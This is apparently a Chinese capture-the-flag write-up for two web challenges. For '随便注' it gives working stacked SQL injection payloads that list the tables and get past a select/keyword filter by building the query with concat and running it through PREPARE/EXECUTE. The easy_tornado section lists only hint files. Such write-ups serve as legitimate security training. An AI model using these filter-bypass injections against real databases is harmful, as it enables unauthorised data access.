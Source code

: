 
## 随便注

堆叠注入

输入select，被过滤

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

查表

```sql
1';show tables;
```

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}


```

flag在1919810931114514

用concat拼接绕过过滤，查flag，set保存flag，然后execute

```sql
1';
SET @a=concat("sel","ect flag from `1919810931114514`");
PREPARE fuck from @a;
execute fuck;
```



## easy_tornado

```
/flag.txt
flag in /fllllllllllllag
/welcome.txt
render
/hints.txt
md5(cookie_secret+md5(filename))
```
